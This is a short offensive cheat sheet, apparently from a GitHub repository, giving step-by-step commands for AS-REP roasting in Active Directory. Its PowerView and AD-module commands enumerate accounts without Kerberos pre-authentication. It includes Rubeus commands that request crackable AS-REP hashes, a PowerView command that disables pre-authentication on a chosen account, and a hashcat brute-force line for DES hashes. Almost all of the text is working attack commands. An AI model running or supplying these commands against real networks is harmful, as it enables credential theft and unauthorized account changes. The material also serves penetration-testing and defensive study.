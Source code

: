 # AS-REP Roasting

## 1) Enumerate users

##### PowerView:

    Get-DomainUser -PreauthNotRequired -Verbose

##### AD module:

    Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth

## 2) Request AS-REP hash

    .\Rubeus.exe asreproast /user:<target> /domain:domain.local /format:hashcat

##### To enumerate AS-REP roastable users through LDAP

    .\Rubeus.exe asreproast /creduser:"domain.local\user1" /credpassword:"password" /domain:domain.local /format:hashcat

## Disable Kerberos Preauth

With PowerView, with enough privileges it is possible to perform targeted AS-REP roasting.

    Set-DomainObject -Identity user1 -XOR @{useraccountcontrol=4194304} -Verbose
    Get-DomainUser -PreauthNotRequired -Verbose

## 3) Crack the hash

With john or hashcat it could be performed.
 
In case of DES hash, here is the command:

    hashcat -a 3 -m 14000 <DES_hash> -1 charsets/DES_full.charset --hex-charset ?1?1?1?1?1?1?1?1

